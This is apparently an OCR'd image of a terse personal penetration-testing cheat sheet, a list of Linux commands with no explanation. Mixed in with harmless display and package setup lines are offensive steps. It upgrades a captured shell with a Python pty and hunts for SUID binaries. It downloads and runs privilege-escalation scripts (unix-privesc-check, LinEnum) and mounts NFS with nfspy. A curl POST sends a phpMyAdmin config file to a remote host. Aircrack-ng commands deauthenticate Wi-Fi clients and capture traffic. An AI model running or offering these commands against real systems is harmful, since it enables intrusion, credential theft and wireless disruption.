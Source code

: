 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool

apt-get install wicd-gtk


set ExitOnSession false


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


find / -user root -perm -4000 -print > 4000.txt

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell

Post with curl
curl -X POST -F "file=./phpmy/config.inc.php" http://192.168.118.196/test.php


airodump-ng -c 3 --bssid MAC -w ~/dir/ wlan0mon

aireplay-ng -0 25 -a MAC wlan0mon
